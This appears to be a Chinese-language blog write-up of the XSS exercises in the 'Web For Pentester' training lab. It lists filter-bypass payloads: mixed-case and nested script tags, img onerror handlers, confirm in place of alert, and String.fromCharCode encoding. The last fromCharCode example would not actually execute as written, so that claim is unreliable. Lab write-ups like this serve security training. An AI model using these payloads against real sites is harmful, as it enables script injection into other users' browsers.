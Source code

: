 ```yaml
---
layout:     post
title:      "Web For Pentester - XSS Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
header-img: "img/Couchdb-RCE.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises
---
```



### XSS Example 1
直接输出无任何过滤：
** name=\<script>alert(/XSS/)\</script> **
### XSS Example 2
过滤掉了\<script>标签，通过大小写进行绕过：
** name=\<Script>alert(/XSS/)\</Script> **
### XSS Example 3
过滤了\<script>标签（包括大写），但只过滤了一次，通过嵌套标签来绕过filter表达式：
**name=\<s\<Script>cript>alert(/XSS/)\</sc\</Script>ript>**
### XSS Example 4
使用\<script>标签测试直接显示error，替换\<img>、\<svg>等标签测试成功：
**name=\<img src=1 onerror="alert(/XSS/)">**
### XSS Example 5
alert被过滤，但prompt、confirm函数可使用
**name=\<img src=1 onerror="confirm(/XSS/)">**
> 绕过magic_quotes_gpc
> magic_quotes_gpc=ON是php中的安全设置，开启后会把一些特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\
> 比如：\<script>alert("xss");\</script>会转换为<script>alert(\"xss\");</script>,这样我们的xss就不生效了。
针对开启了magic_quotes_gpc的网站，我们可以通过javascript中的String.fromCharCode方法来绕过，我们可以把alert("XSS");转换为

String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41)那么我们的XSS语句就变成了

<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)</script> 

String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串

